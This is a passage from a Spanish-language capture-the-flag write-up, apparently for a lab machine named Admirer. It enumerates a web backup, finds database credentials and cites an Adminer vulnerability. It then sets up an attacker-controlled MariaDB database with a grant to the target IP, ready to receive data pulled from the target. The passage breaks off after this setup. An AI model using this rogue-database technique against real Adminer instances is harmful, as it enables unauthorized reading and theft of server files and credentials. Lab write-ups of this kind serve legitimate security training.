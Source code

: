 Aquí no vemos nada interesante, pero si descomprimimos el `html.tar.gz`, veremos una copia de la web que vemos:

```bash wrap=false
❯ ls
 assets   images   utility-scripts   w4ld0s_s3cr3t_d1r   index.php  ﮧ robots.txt
```

Podemos ver una ruta que desconocíamos:

```bash wrap=false
❯ cd utility-scripts
❯ ls
 admin_tasks.php   db_admin.php   info.php   phptest.php
```

### Adminer

Analizando los archivos no vemos nada vulnerable, pero en `db_admin.php` encontramos credenciales de base de datos. Adivinando por el nombre de la máquina, podemos pensar que existe la ruta `adminer`, que es un gestor de bases de datos.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F9GwvtKHNGuPXWWQuPMNC%2Fimage.png?alt=media&#x26;token=3b90dbdb-838f-4413-87ee-4ba5a385f8bf" alt=""><figcaption></figcaption></figure>

Efectivamente, pero después de haber probado las credenciales de ese archivo y de otras que encontramos en el `index.php`, no podemos acceder. Buscando otras vías, encontrarmos una vulnerabilidad: [http://foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](http://foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).

Siguiendo los pasos, primero deberemos configurar nuestra base de datos local con la siguiente secuencia de comandos:

```bash wrap=false
❯ systemctl start mariadb
❯ sudo mariadb
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
Server version: 11.8.2-MariaDB-1 from Debian -- Please help get to 10k stars at https://github.com/MariaDB/Server

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0,005 sec)

MariaDB [(none)]> create database Pwned;
Query OK, 1 row affected (0,000 sec)

MariaDB [(none)]> use Pwned;
Database changed
MariaDB [Pwned]> create user 'zelpro'@'10.10.10.187' identified by 'zelpro';
Query OK, 0 rows affected (0,004 sec)
MariaDB [Pwned]> grant all on Pwned.* to 'zelpro'@'10.10.10.187';
Query OK, 0 rows affected (0,004 sec)
MariaDB [Pwned]> create table data(output varchar(1024));
Query OK, 0 rows affected (0,011 sec)

```